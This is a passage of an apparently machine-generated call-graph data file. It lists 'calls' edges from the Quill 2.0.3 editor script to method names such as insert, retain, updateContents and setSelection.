"static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addMatcher"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convertHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convertHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "prepareMatching"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "dangerouslyPasteHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onCaptureCopy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onCopy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeURIList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onCapturePaste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeURIList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onPaste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onCopy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSemanticHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "onPaste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "prepareMatching"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLeaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLeaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleBackspace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDelete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDeleteRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleEnter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cutoff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cutoff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cutoff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cutoff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, 